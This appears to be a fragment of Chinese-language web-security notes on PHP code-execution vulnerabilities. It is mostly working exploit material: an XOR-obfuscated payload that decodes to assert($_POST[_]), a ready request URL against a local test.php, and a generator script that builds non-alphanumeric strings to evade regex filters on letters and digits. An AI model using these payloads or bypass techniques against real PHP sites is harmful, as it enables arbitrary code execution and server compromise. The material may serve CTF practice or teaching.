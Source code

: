 ```````
 
%A0^%FF=>_    
%AF^%FF=>P 
%B0^%FF=>O
%AC^%FF=>S
%AB^%FF=>T 
    
$_="%9E%8C%8C%9A%8D%8B"^"%FF%FF%FF%FF%FF%FF";
$__="%A0%AF%B0%AC%AB"^"%FF%FF%FF%FF%FF";
$___=$$__;
$_($___[_]);
```
payload
```
http://localhost:8080/test.php?shell=$_="%9E%8C%8C%9A%8D%8B"^"%FF%FF%FF%FF%FF%FF";$__="%A0%AF%B0%AC%AB"^"%FF%FF%FF%FF%FF";$___=$$__;$_($___[_]);
# 需要添加POST
_=phpinfo();
```
![image-20240228170309154](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228170309154.png)
下面这个脚本可以将“assert”变成两个字符串异或的结果，通过更改shell的值可以构造出我们想要的字符串。为了便于表示，生成字符串的范围为33-126（可见字符)。

```php
<?php
$shell = "_POST";
$result1 = "";
$result2 = "";
for($num=0;$num<strlen($shell);$num++)
{
    for($x=33;$x<126;$x++)
    {
        if(judge(chr($x)))
        {
            for($y=33;$y<=126;$y++)
            {
                if(judge(chr($y)))
                {
                    $f = chr($x)^chr($y);
                    if($f == $shell[$num])
                    {
                        $result1 .= chr($x);
                        $result2 .= chr($y);
                        break 2;
                    }
                }
            }
        }
    }
}
echo "'" . $result1;
echo "'^'";
echo $result2 . "'";

function judge($c)
{
    if(!preg_match('/[a-z0-9]/is',$c))
    {
        return true;
    }
    return false;
}
?>
```
```````